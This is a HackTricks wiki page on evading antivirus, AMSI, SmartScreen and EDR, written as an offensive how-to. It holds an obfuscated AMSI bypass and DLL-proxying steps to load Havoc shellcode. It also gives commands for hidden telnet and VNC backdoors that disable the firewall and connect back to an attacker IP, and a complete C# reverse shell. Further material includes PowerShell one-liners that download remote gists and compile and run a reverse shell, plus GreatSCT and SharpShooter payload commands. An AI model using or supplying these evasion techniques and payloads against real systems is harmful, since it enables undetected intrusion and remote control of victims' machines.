



# Antivirus (AV) Bypass

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**This page was written by** [**@m2rc\_p**](https://twitter.com/m2rc\_p)**!**

## **AV Evasion Methodology**

Currently, AVs use different methods for checking if a file is malicious or not, static detection, dynamic analysis, and for the more advanced EDRs, behavioural analysis.

### **Static detection**

Static detection is achieved by flagging known malicious strings or arrays of bytes in a binary or script, and also extracting information from the file itself (e.g. file description, company name, digital signatures, icon, checksum, etc.). This means that using known public tools may get you caught more easily, as they've probably been analyzed and flagged as malicious. There are a couple of ways of getting around this sort of detection:

* **Encryption**

If you encrypt the binary, there will be no way for AV of detecting your program, but you will need some sort of loader to decrypt and run the program in memory.

* **Obfuscation**

Sometimes all you need to do is change some strings in your binary or script to get it past AV, but this can be a time-consuming task depending on what you're trying to obfuscate.

* **Custom tooling**

If you develop your own tools, there will be no known bad signatures, but this takes a lot of time and effort.


A good way for checking against Windows Defender static detection is [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). It basically splits the file into multiple segments and then tasks Defender to scan each one individually, this way, it can tell you exactly what are the flagged strings or bytes in your binary.


I highly recommend you check out this [YouTube playlist](https://www.youtube.com/playlist?list=PLj05gPj8rk\_pkb12mDe4PgYZ5qPxhGKGf) about practical AV Evasion.

### **Dynamic analysis**

Dynamic analysis is when the AV runs your binary in a sandbox and watches for malicious activity (e.g. trying to decrypt and read your browser's passwords, performing a minidump on LSASS, etc.). This part can be a bit trickier to work with, but here are some things you can do to evade sandboxes.

* **Sleep before execution** Depending on how it's implemented, it can be a great way of bypassing AV's dynamic analysis. AV's have a very short time to scan files to not interrupt the user's workflow, so using long sleeps can disturb the analysis of binaries. The problem is that many AV's sandboxes can just skip the sleep depending on how it's implemented.
* **Checking machine's resources** Usually Sandboxes have very little resources to work with (e.g. < 2GB RAM), otherwise they could slow down the user's machine. You can also get very creative here, for example by checking the CPU's temperature or even the fan speeds, not everything will be implemented in the sandbox.
* **Machine-specific checks** If you want to target a user who's workstation is joined to the "contoso.local" domain, you can do a check on the computer's domain to see if it matches the one you've specified, if it doesn't, you can make your program exit.

It turns out that Microsoft Defender's Sandbox computername is HAL9TH, so, you can check for the computer name in your malware before detonation, if the name matches HAL9TH, it means you're inside defender's sandbox, so you can make your program exit.

<figure><figcaption><p>source: <a href="https://youtu.be/StSLxFbVz0M?t=1439">https://youtu.be/StSLxFbVz0M?t=1439</a></p></figcaption></figure>

Some other really good tips from [@mgeeky](https://twitter.com/mariuszbit) for going against Sandboxes

<figure><figcaption><p><a href="https://discord.com/servers/red-team-vx-community-1012733841229746240">Red Team VX Discord</a> #malware-dev channel</p></figcaption></figure>

As we've said before in this post, **public tools** will eventually **get detected**, so, you should ask yourself something:

For example, if you want to dump LSASS, **do you really need to use mimikatz**? Or could you use a different project which is lesser known and also dumps LSASS.

The right answer is probably the latter. Taking mimikatz as an example, it's probably one of, if not the most flagged piece of malware by AVs and EDRs, while the project itself is super cool, it's also a nightmare to work with it to get around AVs, so just look for alternatives for what you're trying to achieve.


When modifying your payloads for evasion, make sure to **turn off automatic sample submission** in defender, and please, seriously, **DO NOT UPLOAD TO VIRUSTOTAL** if your goal is achieving evasion in the long run. If you want to check if your payload gets detected by a particular AV, install it on a VM, try to turn off the automatic sample submission, and test it there until you're satisfied with the result.


## EXEs vs DLLs

Whenever it's possible, always **prioritize using DLLs for evasion**, in my experience, DLL files are usually **way less detected** and analyzed, so it's a very simple trick to use in order to avoid detection in some cases (if your payload has some way of running as a DLL of course).

As we can see in this image, a DLL Payload from Havoc has a detection rate of 4/26 in antiscan.me, while the EXE payload has a 7/26 detection rate.

<figure><figcaption><p>antiscan.me comparison of a normal Havoc EXE payload vs a normal Havoc DLL</p></figcaption></figure>

Now we'll show some tricks you can use with DLL files to be much more stealthier.

## DLL Sideloading & Proxying

**DLL Sideloading** takes advantage of the DLL search order used by the loader by positioning both the victim application and malicious payload(s) alongside each other.

You can check for programs susceptible to DLL Sideloading using [Siofra](https://github.com/Cybereason/siofra) and the following powershell script:


```powershell
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name| ForEach-Object {
    $binarytoCheck = "C:\Program Files\" + $_
    C:\Users\user\Desktop\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck
}
```


This command will output the list of programs susceptible to DLL hijacking inside "C:\Program Files\\" and the DLL files they try to load.

I highly recommend you **explore DLL Hijackable/Sideloadable programs yourself**, this technique is pretty stealthy done properly, but if you use publicly known DLL Sideloadable programs, you may get caught easily.

Just by placing a malicious DLL with the name a program expects to load, won't load your payload, as the program expects some specific functions inside that DLL, to fix this issue, we'll use another technique called **DLL Proxying/Forwarding**.

**DLL Proxying** forwards the calls a program makes from the proxy (and malicious) DLL to the original DLL, thus preserving the program's functionality and being able to handle the execution of your payload.

I will be using the [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy) project from [@flangvik](https://twitter.com/Flangvik/)

These are the steps I followed:


```
1. Find an application vulnerable to DLL Sideloading (siofra or using Process Hacker)
2. Generate some shellcode (I used Havoc C2)
3. (Optional) Encode your shellcode using Shikata Ga Nai (https://github.com/EgeBalci/sgn)
4. Use SharpDLLProxy to create the proxy dll (.\SharpDllProxy.exe --dll .\mimeTools.dll --payload .\demon.bin)
```


The last command will give us 2 files: a DLL source code template, and the original renamed DLL.

<figure><figcaption></figcaption></figure>


```
5. Create a new visual studio project (C++ DLL), paste the code generated by SharpDLLProxy (Under output_dllname/dllname_pragma.c) and compile. Now you should have a proxy dll which will load the shellcode you've specified and also forward any calls to the original DLL.
```


These are the results:

<figure><figcaption></figcaption></figure>

Both our shellcode (encoded with [SGN](https://github.com/EgeBalci/sgn)) and the proxy DLL have a 0/26 Detection rate in [antiscan.me](https://antiscan.me)! I would call that a success.

<figure><figcaption></figcaption></figure>


I **highly recommend** you watch [S3cur3Th1sSh1t's twitch VOD](https://www.twitch.tv/videos/1644171543) about DLL Sideloading and also [ippsec's video](https://www.youtube.com/watch?v=3eROsG\_WNpE) to learn more about what we've discussed more in-depth.


## [**Freeze**](https://github.com/optiv/Freeze)

`Freeze is a payload toolkit for bypassing EDRs using suspended processes, direct syscalls, and alternative execution methods`

You can use Freeze to load and execute your shellcode in a stealthy manner.

```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```

<figure><figcaption></figcaption></figure>


Evasion is just a cat & mouse game, what works today could be detected tomorrow, so never rely on only one tool, if possible, try chaining multiple evasion techniques.


## AMSI (Anti-Malware Scan Interface)

AMSI was created to prevent "[fileless malware](https://en.wikipedia.org/wiki/Fileless\_malware)". Initially, AVs were only capable of scanning **files on disk**, so if you could somehow execute payloads **directly in-memory**, the AV couldn't do anything to prevent it, as it didn't have enough visibility.

The AMSI feature is integrated into these components of Windows.

* User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
* PowerShell (scripts, interactive use, and dynamic code evaluation)
* Windows Script Host (wscript.exe and cscript.exe)
* JavaScript and VBScript
* Office VBA macros

It allows antivirus solutions to inspect script behavior by exposing script contents in a form that is both unencrypted and unobfuscated.

Running `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` will produce the following alert on Windows Defender.

<figure><figcaption></figcaption></figure>

Notice how it prepends `amsi:` and then the path to the executable from which the script ran, in this case, powershell.exe

We didn't drop any file to disk, but still got caught in-memory because of AMSI.

There are a couple of ways to get around AMSI:

* **Obfuscation**

Since AMSI mainly works with static detections, therefore, modifying the scripts you try to load can be a good way for evading detection.

However, AMSI has the capability of unobfuscating scripts even if it has multiple layers, so obfuscation could be a bad option depending on how it's done. This makes it not-so-straightforward to evade. Although, sometimes, all you need to do is change a couple of variable names and you'll be good, so it depends on how much something has been flagged.

* **AMSI Bypass**

Since AMSI is implemented by loading a DLL into the powershell (also cscript.exe, wscript.exe, etc.) process, it's possible to tamper with it easily even running as an unprivileged user. Due to this flaw in the implementation of AMSI, researchers have found multiple ways to evade AMSI scanning.

**Forcing an Error**

Forcing the AMSI initialization to fail (amsiInitFailed) will result that no scan will be initiated for the current process. Originally this was disclosed by [Matt Graeber](https://twitter.com/mattifestation) and Microsoft has developed a signature to prevent wider usage.


```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```


All it took was one line of powershell code to render AMSI unusable for the current powershell process. This line has of course been flagged by AMSI itself, so some modification is needed in order to use this technique.

Here is a modified AMSI bypass I took from this [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db).

```powershell
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
      $ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
      $DiskMgr = 'Syst+@.M£n£g' + 'e@+nt.Auto@' + '£tion.A' -join ''
      $fdx = '@ms' + '£In£' + 'tF@£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```

Keep in mind, that this will probably get flagged once this post comes out, so you should not publish any code if your plan is staying undetected.

**Memory Patching**

This technique was initially discovered by [@RastaMouse](https://twitter.com/\_RastaMouse/) and it involves finding address for the "AmsiScanBuffer" function in amsi.dll (responsible for scanning the user-supplied input) and overwriting it with instructions to return the code for E\_INVALIDARG, this way, the result of the actual scan will return 0, which is interpreted as a clean result.


Please read [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) for a more detailed explanation.


There are also many other techniques used to bypass AMSI with powershell, check out [**this page**](basic-powershell-for-pentesters/#amsi-bypass) and [this repo](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) to learn more about them.

## Obfuscation

There are several tools that can be used to **obfuscate C# clear-text code**, generate **metaprogramming templates** to compile binaries or **obfuscate compiled binaries** such as:

* [**InvisibilityCloak**](https://github.com/h4wkst3r/InvisibilityCloak)**: C# obfuscator**
* [**Obfuscator-LLVM**](https://github.com/obfuscator-llvm/obfuscator): The aim of this project is to provide an open-source fork of the [LLVM](http://www.llvm.org/) compilation suite able to provide increased software security through [code obfuscation](http://en.wikipedia.org/wiki/Obfuscation\_\(software\)) and tamper-proofing.
* [**ADVobfuscator**](https://github.com/andrivet/ADVobfuscator): ADVobfuscator demonstates how to use `C++11/14` language to generate, at compile time, obfuscated code without using any external tool and without modifying the compiler.
* [**obfy**](https://github.com/fritzone/obfy): Add a layer of obfuscated operations generated by the C++ template metaprogramming framework which will make the life of the person wanting to crack the application a little bit harder.
* [**Alcatraz**](https://github.com/weak1337/Alcatraz)**:** Alcatraz is a x64 binary obfuscator that is able to obfuscate various different pe files including: .exe, .dll, .sys
* [**metame**](https://github.com/a0rtega/metame): Metame is a simple metamorphic code engine for arbitrary executables.
* [**ropfuscator**](https://github.com/ropfuscator/ropfuscator): ROPfuscator is a fine-grained code obfuscation framework for LLVM-supported languages using ROP (return-oriented programming). ROPfuscator obfuscates a program at the assembly code level by transforming regular instructions into ROP chains, thwarting our natural conception of normal control flow.
* [**Nimcrypt**](https://github.com/icyguider/nimcrypt): Nimcrypt is a .NET PE Crypter written in Nim
* [**inceptor**](https://github.com/klezVirus/inceptor)**:** Inceptor is able to convert existing EXE/DLL into shellcode and then load them

## SmartScreen & MoTW

You may have seen this screen when downloading some executables from the internet and executing them.

Microsoft Defender SmartScreen is a security mechanism intended to protect the end user against running potentially malicious applications.

<figure><figcaption></figcaption></figure>

SmartScreen mainly works with a reputation-based approach, meaning that uncommonly download applications will trigger SmartScreen thus alerting and preventing the end user from executing the file (although the file can still be executed by clicking More Info -> Run anyway).

**MoTW** (Mark of The Web) is an [NTFS Alternate Data Stream](https://en.wikipedia.org/wiki/NTFS#Alternate\_data\_stream\_\(ADS\)) with the name of Zone.Identifier which is automatically created upon download files from the internet, along with the URL it was downloaded from.

<figure><figcaption><p>Checking the Zone.Identifier ADS for a file downloaded from the internet.</p></figcaption></figure>


It's important to note that executables signed with a **trusted** signing certificate **won't trigger SmartScreen**.


A very effective way to prevent your payloads from getting the Mark of The Web is by packaging them inside some sort of container like an ISO. This happens because Mark-of-the-Web (MOTW) **cannot** be applied to **non NTFS** volumes.

<figure><figcaption></figcaption></figure>

[**PackMyPayload**](https://github.com/mgeeky/PackMyPayload/) is a tool that packages payloads into output containers to evade Mark-of-the-Web.

Example usage:

```powershell
PS C:\Tools\PackMyPayload> python .\PackMyPayload.py .\TotallyLegitApp.exe container.iso

+      o     +              o   +      o     +              o
    +             o     +           +             o     +         +
    o  +           +        +           o  +           +          o
-_-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-_-_-_-_-_-_-_,------,      o
   :: PACK MY PAYLOAD (1.1.0)       -_-_-_-_-_-_-|   /\_/\
   for all your container cravings   -_-_-_-_-_-~|__( ^ .^)  +    +
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-__-_-_-_-_-_-_-''  ''
+      o         o   +       o       +      o         o   +       o
+      o            +      o    ~   Mariusz Banach / mgeeky    o
o      ~     +           ~          <mb [at] binary-offensive.com>
    o           +                         o           +           +

[.] Packaging input file to output .iso (iso)...
Burning file onto ISO:
    Adding file: /TotallyLegitApp.exe

[+] Generated file written to (size: 3420160): container.iso
```

Here is a demo for bypassing SmartScreen by packaging payloads inside ISO files using [PackMyPayload](https://github.com/mgeeky/PackMyPayload/)

<figure><figcaption></figcaption></figure>

## C# Assembly Reflection

Loading C# binaries in memory has been known for quite some time and it's still a very great way for running your post-exploitation tools without getting caught by AV.

Since the payload will get loaded directly into memory without touching disk, we will only have to worry about patching AMSI for the whole process.

Most C2 frameworks (sliver, Covenant, metasploit, CobaltStrike, Havoc, etc.) already provide the ability to execute C# assemblies directly in memory, but there are different ways of doing so:

* **Fork\&Run**

It involves **spawning a new sacrificial process**, inject your post-exploitation malicious code into that new process, execute your malicious code and when finished, kill the new process. This has both its benefits and its drawbacks. The benefit to the fork and run method is that execution occurs **outside** our Beacon implant process. This means that if something in our post-exploitation action goes wrong or gets caught, there is a **much greater chance** of our **implant surviving.** The drawback is that you have a **greater chance** of getting caught by **Behavioural Detections**.

<figure><figcaption></figcaption></figure>

* **Inline**

It's about injecting the post-exploitation malicious code **into its own process**. This way, you can avoid having to create a new process and getting it scanned by AV, but the drawback is that if something goes wrong with the execution of your payload, there's a **much greater chance** of **losing your beacon** as it could crash.

<figure><figcaption></figcaption></figure>


If you want to read more about C# Assembly loading, please check out this article [https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/](https://securityintelligence.com/posts/net-execution-inlineexecute-assembly/) and their InlineExecute-Assembly BOF ([https://github.com/xforcered/InlineExecute-Assembly](https://github.com/xforcered/InlineExecute-Assembly))


You can also load C# Assemblies **from PowerShell**, check out [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) and [S3cur3th1sSh1t's video](https://www.youtube.com/watch?v=oe11Q-3Akuk).

## Using Other Programming Languages

As proposed in [**https://github.com/deeexcee-io/LOI-Bins**](https://github.com/deeexcee-io/LOI-Bins), it's possible to execute malicious code using other languages by giving the compromised machine access **to the interpreter environment installed on the Attacker Controlled SMB share**.&#x20;

By allowing access to the Interpreter Binaries and the environment on the SMB share you can **execute arbitrary code in these languages within memory** of the compromised machine.

The repo indicates: Defender still scans the scripts but by utilising Go, Java, PHP etc we have **more flexibility to bypass static signatures**. Testing with random un-obfuscated reverse shell scripts in these languages has proved successful.

## Advanced Evasion

Evasion is a very complicated topic, sometimes you have to take into account many different sources of telemetry in just one system, so it's pretty much impossible to stay completely undetected in mature environments.

Every environment you go against will have their own strengths and weaknesses.

I highly encourage you go watch this talk from [@ATTL4S](https://twitter.com/DaniLJ94), to get a foothold into more Advanced Evasion techniques.



his is also another great talk from [@mariuszbit](https://twitter.com/mariuszbit) about Evasion in Depth.



## **Old Techniques**

### **Telnet Server**

Until Windows10, all Windows came with a **Telnet server** that you could install (as administrator) doing:

```
pkgmgr /iu:"TelnetServer" /quiet
```

Make it **start** when the system is started and **run** it now:

```
sc config TlntSVR start= auto obj= localsystem
```

**Change telnet port** (stealth) and disable firewall:

```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```

### UltraVNC

Download it from: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (you want the bin downloads, not the setup)

**ON THE HOST**: Execute _**winvnc.exe**_ and configure the server:

* Enable the option _Disable TrayIcon_
* Set a password in _VNC Password_
* Set a password in _View-Only Password_

Then, move the binary _**winvnc.exe**_ and **newly** created file _**UltraVNC.ini**_ inside the **victim**

#### **Reverse connection**

The **attacker** should **execute inside** his **host** the binary `vncviewer.exe -listen 5900` so it will be **prepared** to catch a reverse **VNC connection**. Then, inside the **victim**: Start the winvnc daemon `winvnc.exe -run` and run `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900`

**WARNING:** To maintain stealth you must not do a few things

* Don't start `winvnc` if it's already running or you'll trigger a [popup](https://i.imgur.com/1SROTTl.png). check if it's running with `tasklist | findstr winvnc`
* Don't start `winvnc` without `UltraVNC.ini` in the same directory or it will cause [the config window](https://i.imgur.com/rfMQWcf.png) to open
* Don't run `winvnc -h` for help or you'll trigger a [popup](https://i.imgur.com/oc18wcu.png)

### GreatSCT

Download it from: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```

Inside GreatSCT:

```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```

Now **start the lister** with `msfconsole -r file.rc` and **execute** the **xml payload** with:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

**Current defender will terminate the process very fast.**

### Compiling our own reverse shell

https://medium.com/@Bank\_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### First C# Revershell

Compile it with:

```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```

Use it with:

```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

[https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple\_Rev\_Shell.cs](https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple\_Rev\_Shell.cs)

### C# using compiler

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```

[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Automatic download and execution:

```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```



C# obfuscators list: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++

```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

[https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)

Merlin, Empire, Puppy, SalsaTools https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/

[https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)

https://github.com/l0ss/Grouper2





### Other tools

```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless: 
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload: 
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut: 
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```

### More



<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
